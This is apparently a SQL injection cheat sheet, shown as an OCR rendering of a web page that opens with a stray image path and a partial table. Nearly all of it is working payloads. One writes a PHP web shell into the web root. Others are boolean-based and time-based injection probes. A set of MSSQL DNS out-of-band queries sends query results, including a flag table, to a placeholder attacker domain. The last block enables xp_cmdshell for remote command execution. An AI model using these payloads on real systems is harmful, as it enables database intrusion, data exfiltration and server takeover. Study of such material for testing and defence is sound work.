 | `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |


## Boolean-based

```sql
' AND 1=1;--
```

## Time-based

```sql
'; IF (1=1) WAITFOR DELAY '0:0:10';--
```

## DNS OOB

| SQL Function | SQL Query |
| ----- | ----- |
| `master..xp_dirtree` | `DECLARE @T varchar(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_dirtree "\\'+@T+'.YOUR.DOMAIN\\x"');` |
| `master..xp_fileexist` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_fileexist "\\'+@T+'.YOUR.DOMAIN\\x"');` |
| `master..xp_subdirs` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_subdirs "\\'+@T+'.YOUR.DOMAIN\\x"');` |
| `sys.dm_os_file_exists` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM sys.dm_os_file_exists('\\'+@T+'.YOUR.DOMAIN\x');` |
| `fn_trace_gettable` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM fn_trace_gettable('\\'+@T+'.YOUR.DOMAIN\x.trc',DEFAULT);` |
| `fn_get_audit_file` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM fn_get_audit_file('\\'+@T+'.YOUR.DOMAIN\',DEFAULT,DEFAULT);` |
| `split result into sub-domains` | `DECLARE @T VARCHAR(MAX); DECLARE @A VARCHAR(63); DECLARE @B VARCHAR(63); SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), flag), 1) from flag; SELECT @A=SUBSTRING(@T,3,63); SELECT @B=SUBSTRING(@T,3+63,63); SELECT * FROM fn_get_audit_file('\\'+@A+'.'+@B+'.YOUR.DOMAIN\',DEFAULT,DEFAULT);` |

## [MSSQL] RCE

```sql
-- Check if we are sysadmin
SELECT IS_SRVROLEMEMBER('sysadmin');

-- Enable 'Advanced Options'
EXEC sp_configure 'Show Advanced Options', '1';
RECONFIGURE;

-- Enable 'xp_cmdshell'
EXEC sp_configure 'xp_cmdshell', '1';
RECONFIGURE;

-- Ping ourselves
EXEC xp_cmdshell 'ping /n 4 192.168.43.164';
```
